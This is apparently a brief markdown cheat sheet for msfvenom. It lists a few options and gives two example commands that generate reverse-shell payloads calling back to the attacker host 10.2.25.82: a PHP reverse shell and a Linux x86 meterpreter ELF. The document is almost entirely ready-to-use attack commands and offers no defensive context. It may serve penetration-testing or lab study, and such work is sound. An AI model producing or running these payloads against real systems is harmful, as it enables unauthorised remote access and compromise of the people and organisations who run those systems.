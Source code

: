 ### Options
- `--list formats` shows formats of payloads (ex. `.exe`, `.py`, etc.)
- `-e` encodes payload (ex. `php/base64`)
- `-p` payload to use
### Examples
###### PHP Reverse Shell
```
msfvenom -p php/reverse_php LHOST=10.2.25.82 LPORT=4444 -f raw > reverse_shell.php
```
###### Linux Executable
```
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.2.25.82 LPORT=XXXX -f elf > rev_shell.elf`
```
